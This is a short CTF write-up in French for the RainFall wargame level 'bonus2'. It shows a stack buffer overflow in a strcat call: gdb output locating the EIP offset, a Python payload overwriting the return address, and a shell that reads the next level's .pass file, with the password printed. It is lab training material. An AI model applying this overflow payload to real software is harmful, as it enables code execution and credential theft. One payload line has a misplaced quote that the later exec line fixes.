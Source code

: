 # bonus2: STACK OVERFLOW

# OFFSET

```bash
(gdb) printf "%s\n", 0x804873d 
fi
```
> memcmp compare l'env ``$LANG`` avec ``fi``

_**nous allons overflow le strcat avec des paternes alpha classico**_

- **argv[1]** ="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS" _(76 octets)_
- **argv[2]** = "AAAABBBBCCCCDDDDEEAAAA" _(22 octets)_

```bash
Starting program: /home/user/bonus2/bonus2 $(cat /tmp/patern) $(cat /tmp/patern2)
Hyvää päivää AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJAAAABBBBCCCCDDDDEEAAAAFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? () <------- EIP OFFSET !
```
# PAYLOAD

```bash
$(python -c 'print "A"*76') $(python -c 'print "A"*18' + "\x37\x86\x04\x08" + "\xc5\xfc\xff\xbf')
```
# EXEC

```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A"*76') $(python -c 'print "A"*18 + "\x37\x86\x04\x08" + "\xc5\xfc\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

```
TADA ! PLUS QUE UN SEUL ! :)